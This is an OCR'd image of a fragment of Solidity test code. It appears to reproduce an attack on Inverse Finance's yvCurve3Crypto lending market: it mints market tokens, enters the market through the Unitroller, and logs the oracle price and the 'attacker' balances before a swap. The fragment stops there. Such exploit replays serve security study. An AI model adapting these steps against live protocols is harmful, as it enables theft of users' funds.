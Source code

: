 │       yvCurve3Crypto.balanceOf(address(this))                                                                                                                                                                                                        │
│     );                                                                                                                                                                                                                                               │
│     yvCurve3Crypto.approve(                                                                                                                                                                                                                          │
│       0x1429a930ec3bcf5Aa32EF298ccc5aB09836EF587,                                                                                                                                                                                                    │
│       100000000000000000000000000000000000000000000000000                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     anYvCrv3CryptoInverse.mint(4906754677503974414310);                                                                                                                                                                                              │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Deposited to Inverse Yearn 3Crypto Vault, anYvCrv3Crypto balance of attacker:",                                                                                                                                                               │
│       anYvCrv3CryptoInverse.balanceOf(address(this))                                                                                                                                                                                                 │
│     );                                                                                                                                                                                                                                               │
│     address[] memory toEnter = new address[](1);                                                                                                                                                                                                     │
│     toEnter[0] = 0x1429a930ec3bcf5Aa32EF298ccc5aB09836EF587;                                                                                                                                                                                         │
│     Unitroller.enterMarkets(toEnter);                                                                                                                                                                                                                │
│                                                                                                                                                                                                                                                      │
│     emit log_named_int(                                                                                                                                                                                                                              │
│       "YVCrv3CryptoFeed lastanswer:",                                                                                                                                                                                                                │
│       YVCrv3CryptoFeed.latestAnswer()                                                                                                                                                                                                                │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Before swap, USDT balance of attacker:",                                                                                                                                                                                                      │